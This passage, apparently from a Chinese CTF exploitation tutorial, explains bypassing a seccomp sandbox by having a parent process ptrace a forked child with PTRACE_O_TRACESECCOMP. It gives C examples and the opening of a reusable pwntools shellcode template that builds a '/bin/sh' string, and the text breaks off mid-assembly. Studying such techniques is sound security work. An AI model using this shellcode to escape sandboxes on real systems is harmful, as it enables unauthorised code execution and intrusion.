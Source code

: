 ```c
            }
            // 就通过ptrace调用允许该调用
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
如果是shellcode版本的话，为了方便，可以把SETOPTIONS也放到循环内部。
```c
int main()
{
    pid_t child = fork();

    if (child == 0)
    {
        // 子进程
        struct timespec req = {3, 0};
        nanosleep(&req, NULL);
        execl("/usr/bin/ls", "ls", NULL);
    }
    else
    {
        // 父进程:负责追踪子进程
        ptrace(PTRACE_ATTACH, child, NULL, NULL);
        while (1)
        {
            waitpid(child, 0, 0);
            ptrace(PTRACE_SETOPTIONS, child, NULL, PTRACE_O_TRACESECCOMP);
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
## 完整板子
下面是完整板子
```python
order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

```